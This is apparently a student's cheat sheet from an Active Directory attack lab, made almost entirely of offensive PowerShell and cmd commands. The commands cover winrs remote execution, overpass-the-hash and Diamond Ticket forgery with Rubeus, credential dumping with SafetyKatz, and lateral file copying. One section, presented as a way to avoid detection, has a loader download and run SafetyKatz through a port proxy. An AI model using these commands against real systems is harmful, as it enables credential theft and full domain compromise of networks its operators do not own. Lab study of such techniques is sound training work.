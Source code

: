### **WINRS**
```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```
```powershell
winrs -r:<MACCHINA> cmd
```
### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
```cmd
Rubeus.exe asktgt /user:<USER> /aes256:<HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Use winrs to test
```powershell
winrs -r:dcorp-dc whoami
```
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Other Sessions Opened**
```powerview
Find-DomainUserLocation
```
![[Pasted image 20231018164427.png]]
Connect Using Win-rs
### **Copy from a machine to another**
```powershell
echo F | xcopy <PATH> \\<R MACHINE>\<R PATH>
```
```powershell
Copy-Item <PATH> \\<MACCHINA>\<R PATH>
```
### **Avoid detection while downloading**
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<IP>"
```
Download and use program
```powershell
$null | winrs -r:<MACCHINA> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
### **Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack.**
Use Rubeus and the krbtgt credentials to create a Diamond Ticket
```Cmd
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
and now you can user win-rs to execute commands